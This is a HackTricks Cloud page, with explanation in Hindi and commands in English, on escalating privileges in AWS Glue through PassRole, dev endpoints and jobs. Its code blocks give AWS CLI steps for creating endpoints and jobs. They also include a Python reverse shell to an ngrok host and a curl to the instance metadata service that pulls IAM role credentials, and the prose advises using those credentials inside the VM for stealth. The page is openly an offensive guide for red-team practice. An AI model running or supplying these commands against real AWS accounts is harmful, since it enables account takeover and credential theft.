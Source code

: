 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इन अनुमतियों वाले उपयोगकर्ता **एक नया AWS Glue विकास अंत बिंदु सेटअप कर सकते हैं**, **Glue द्वारा अनुमेय एक मौजूदा सेवा भूमिका को इस अंत बिंदु पर विशिष्ट अनुमतियों के साथ असाइन कर सकते हैं**।

सेटअप के बाद, **हमलावर अंत बिंदु के उदाहरण में SSH कर सकता है**, और असाइन की गई भूमिका के IAM क्रेडेंशियल चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
चुपके के उद्देश्य के लिए, Glue वर्चुअल मशीन के अंदर IAM क्रेडेंशियल्स का उपयोग करने की सिफारिश की जाती है।

**संभावित प्रभाव:** निर्दिष्ट Glue सेवा भूमिका तक प्रिवेस्क।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **एक मौजूदा Glue विकास** अंत बिंदु की SSH कुंजी को **बदल सकते हैं, जिससे SSH पहुंच सक्षम होती है**। इससे हमलावर को अंत बिंदु की संलग्न भूमिका के विशेषाधिकारों के साथ आदेश निष्पादित करने की अनुमति मिलती है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** उपयोग की गई गोंद सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

उपयोगकर्ता जिनके पास **`iam:PassRole`** है, जो **`glue:CreateJob` या `glue:UpdateJob`** के साथ मिलकर, और **`glue:StartJobRun` या `glue:CreateTrigger`** में से किसी एक के साथ मिलकर **AWS Glue नौकरी** बना या अपडेट कर सकते हैं, किसी भी **गोंद सेवा खाते** को संलग्न कर सकते हैं, और नौकरी के निष्पादन को प्रारंभ कर सकते हैं। नौकरी की क्षमताओं में मनमाने Python कोड को चलाना शामिल है, जिसका उपयोग एक रिवर्स शेल स्थापित करने के लिए किया जा सकता है। इस रिवर्स शेल का उपयोग **IAM क्रेडेंशियल** को निकालने के लिए किया जा सकता है जो गोंद नौकरी से जुड़ी भूमिका के हैं, जिससे उस भूमिका के अनुमतियों के आधार पर संभावित अनधिकृत पहुंच या क्रियाएं हो सकती हैं:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट गोंद सेवा भूमिका के लिए प्रिवेस्क।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ, एक हमलावर पहले से जुड़े भूमिका के IAM क्रेडेंशियल चुरा सकता है।

**संभावित प्रभाव:** जुड़े गोंद सेवा भूमिका के लिए प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
